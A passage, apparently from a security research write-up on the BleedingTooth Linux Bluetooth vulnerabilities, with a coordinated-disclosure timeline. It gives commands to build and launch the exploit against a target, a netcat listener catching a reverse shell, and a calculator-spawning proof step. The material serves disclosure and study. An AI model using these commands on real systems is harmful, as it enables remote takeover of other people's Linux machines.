 Compile it using:
```c
$ gcc -o exploit exploit.c -lbluetooth
```
and execute it as:
```c
$ sudo ./exploit target_mac source_ip source_port
```
In another terminal, run:
```c
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```
If successful, a calc can be spawned with:
```shell
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```
Occasionally, the victim may print Bluetooth: Trailing bytes: 6 in sframe in dmesg. This happens if the kmalloc-128 slab spray has not been successful. In that case, we need to repeat the exploit. As an anecdote regarding the name “BadKarma”, the BadKarma exploit occasionally managed to bail out early in sk_filter(), e.g. when the field sk_filter is 0, and proceed with executing the A2MP receive handler and sending back a A2MP response packet. Hilariously, when that happened, the victim’s machine did not panic – instead, the attacker’s machine would panic; because, as we learned earlier, the ERTM implementation used by the A2MP protocol would by design trigger a type confusion.
### Timeline
2020-07-06 – BadVibes vulnerability discovered internally at Google
2020-07-20 – BadKarma and BadChoice vulnerabilities discovered internally at Google
2020-07-22 – Linus Torvalds reports independent discovery of the BadVibes vulnerability to BlueZ with a 7 day disclosure timeline
2020-07-24 – Technical details on the three BleedingTooth vulnerabilities reported to BlueZ main developers (Intel)
2020-07-29 – Intel schedules a meeting for 2020-07-31 with Google
2020-07-30 – BadVibes fix released
2020-07-31 – Intel sets disclosure date to 2020-09-01, with a prior NDA’d disclosure coordinated by Intel. The informed parties are approved to disable BT_HS via kconfig given a non-security commit message
2020-08-12 – Intel adjusts disclosure date to 2020-10-13 (90days from initial report)
2020-09-25 – Intel commits patches to public bluetooth-next branch
2020-09-29 – Patches merged with 5.10 linux-next branch.
2020-10-13 – Public disclosure of Intel’s advisory, followed by disclosure of Google advisories
2020-10-14 – Intel corrects the recommended fixed version from 5.9 to the 5.10 kernel
2020-10-15 – Intel removes kernel upgrade recommendation
### Conclusion
